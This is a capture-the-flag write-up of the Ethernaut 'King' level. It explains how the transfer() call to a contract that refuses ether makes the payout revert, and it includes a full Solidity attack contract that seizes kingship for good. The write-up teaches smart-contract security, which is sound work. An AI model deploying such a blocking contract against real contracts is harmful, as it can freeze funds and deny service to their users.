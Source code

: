 # 09 - King

The vulnerability of this contract is a bit tricky. As the description says: 


The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD.

Such a fun game. Your goal is to break it.

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.


The thing with this contract, is that the owner can claim kinghship whenever he wants, and we have to prevent that from happening. The answer to do that is in this line of the contract: `payable(king).transfer(msg.value);`

Keep in mind that transfer is a function that sends a certain amount of ether to an address, and more importantly, this function may revert if it doesn't get to fullfill the transfer successfully, which will make the whole program execution stop. Therefore, we have to make the tranfer fail. How can we do that?

To make the transfer fail, we are going to create a smart contract that doesn't accept transfers, but that can send ether to become the king. Thus, when the owner tries to reclaim kingship, the call to the transfer function will revert and both the king and prize won't be updated.

The contract I've created to get this done is this:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract breakKing {
    address owner;
    uint oops;
    address payable addr;

    constructor(address ownerAddr, address payable target) {
        owner = ownerAddr;
        addr = target;
        oops = 0;
    }

    modifier onlyOwner(){
        require(msg.sender == owner);
        _;
    }

    function transferEth() public payable onlyOwner returns(bool) {
        (bool sent,) = addr.call{value: msg.value}("");
        return sent;
    }
}
```

You just need to initialize this assigning your address and the address of your King contract instance, then you call `transferEth()` by sending an enough amount of ether to become king. After doing this, you will become the king forever :)

